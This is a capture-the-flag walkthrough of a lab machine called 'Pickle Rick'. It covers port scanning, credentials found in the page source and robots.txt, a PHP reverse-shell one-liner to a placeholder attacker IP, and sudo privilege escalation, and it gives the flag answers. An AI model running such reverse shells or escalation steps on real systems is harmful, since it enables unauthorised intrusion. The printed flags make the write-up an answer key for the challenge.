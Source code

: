 # Pickle Rick

**Target IP : 10.10.152.72**

- Username: "R1ckRul3s" (page source)

#### Nmap Scanning
Open Ports
- 22 : OpenSSH
- 80 : Apache/2.4.18 (Webserver)

Nmap result : [here](./intitial-scan.txt)

#### Enumeration
we found robots.txt,
- Looking this file we think, *password* might be : "Wubbalubbadubdub"
- Found "/login.php" page from nikto output<br>
![](./screenshots/nikto.png)<br>

Enumeration result : [here](./enum-initial.txt)

#### Flags

Using above credentials, login to "10.10.152.72/login.php"
- execute ls command to list files (or we can have a reverse shell setup using
	```php
	php -r '$sock=fsockopen("<attacking-machine IP>",<port>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

	```
	)

- Concatenate Sup3rS3cretPickl3Ingred.txt file using<br>
	```bash
	less Sup3rS3cretPickl3Ingred.txt

	```
	**First Ingredient : "mr. meeseek hair"**

- Concatenate clue.txt file for further details of other ingredients.

- From clue.txt, we start searching other ingredients and found one in "/home/rick/second\ ingredients"<br>
	**Second Ingredient : "1 jerry tear"**

let's check do we need password to run sudo command using

```bash
sudo -l

```

we get,
![](./screenshots/no_pass.png)

From this line ("(ALL) NOPASSWD: ALL)") we are sure that we can run any command with sudo without having password.

- list content of root directory using,
	```bash
	sudo ls /root

	```

we get,
![](./screenshots/sudo_ls.png)

- Concatenate 3rd.txt.<br>
	**Third Ingredient : "fleeb juice"**

